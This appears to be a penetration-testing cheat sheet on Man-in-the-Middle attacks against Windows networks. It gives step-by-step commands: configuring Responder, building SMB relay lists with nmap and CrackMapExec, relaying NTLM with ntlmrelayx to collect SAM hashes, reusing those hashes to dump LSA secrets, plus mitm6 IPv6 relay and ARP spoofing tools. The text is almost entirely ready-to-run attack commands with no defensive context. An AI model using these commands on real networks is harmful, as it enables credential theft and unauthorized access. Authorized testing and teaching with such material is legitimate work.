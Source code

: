 ### Man-In-The-Middle

#### Responder + NTLMrelayx

First we need to edit  responder.conf like this :

`vim /usr/share/responder/Responder.conf`

```text
[Responder Core]

; Servers to start
SQL = On
SMB = Off     # Turn this off
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = Off    # Turn this off
HTTPS = On
DNS = On
LDAP = On
```

Then we create a list of targets :

```text
nmap -T4 -Pn -p 445 --open -oA <outfile> <targets>
cat *.gnmap | grep -i "open/tcp" | cut -d " " -f2 | sort -u > perim_up_smb.txt
cme smb perim_up_smb.txt --gen-relay-list relaylistOutputFilename.txt
```

> if the scope is small : `cme smb <targets> --gen-relay-list relaylistOutputFilename.txt`

After we can run Responder + ntlmrelayx

```text
python Responder.py -I <interface> -rdw
ntlmrelayx.py -tf relaylistOutputFilename.txt
```

> This command will generate many log files which contain SAM hashes, just get all these files and store it into a formatted file that includes all hashes. \( `cat *.sam |sort -u > hashs.txt` \) Then you can just run CrackMapExec on full scope using theses hashes :

`crackmapexec smb perim_up_smb.txt -u Administrator -d '.' -H hashs.txt --lsa`

#### mitm6 + NTLMrelayx

```text
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqnd
ntlmrelayx.py -tf relaylistOutputFilename.txt -6 
```

#### ARP \(use with caution !\)

```text
Bettercap
Cain.exe (& Abel)
```
